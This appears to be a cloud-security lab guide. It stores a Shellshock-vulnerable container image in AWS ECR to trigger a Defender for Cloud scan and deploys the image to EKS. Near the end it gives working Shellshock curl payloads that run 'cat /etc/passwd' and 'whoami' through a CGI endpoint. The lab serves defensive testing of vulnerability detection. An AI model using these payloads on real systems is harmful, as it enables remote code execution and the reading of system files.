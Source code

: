 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the AWS ECR for Defender to trigger a vulnerability scan

As similar approach to scan for vulnerabilities in Azure ACR, Defender for Cloud can also perfor scans for container images stored in AWS ECR

This is valid when you have configured the Defender connector for AWS, out of scope for this lab

First, create an AWS ECR to store your test images

```
aws ecr create-repository --repository-name <aws-ecr-name> --region <aws-region>
```

Then, you need to log into your AWS ECR from your working machine

```
aws ecr get-login-password --region <aws-region> | sudo docker login --username AWS --password-stdin <aws-accountID>.dkr.ecr.<aws-region>.amazonaws.com
```

Download a vulnerable image from Docker Hub

```
docker pull vulnerables/cve-2014-6271
```

Run the following command to properly tag your image to match your ECR account name.

```
docker tag vulnerables/cve-2014-6271 <aws-accountID>.dkr.ecr.<aws-region>.amazonaws.com/<aws-ecr-name>:cve-2014-6271
```

Finally, push the image to the registry

```
docker push <aws-accountUD>.dkr.ecr.<aws-region>.amazonaws.com/<aws-ecr-name>:cve-2014-6271
```

In max of 2 hours Defender will show a recommendation to fix the vulnerability findings of your AWS ECR. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities



![AWS ECR Summary reco](/images/aws-ecr-summary.png)

And clicking on the affected resources you see the image details

![AWS ECR Summary reco](/images/aws-ecr-detail.png)

Now, it is time to deploy the container as a running pod in the AWS EKS environment

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```

Get the pods ip address using

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
```

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```

and

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ECR to resolve vulnerabilities found. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities





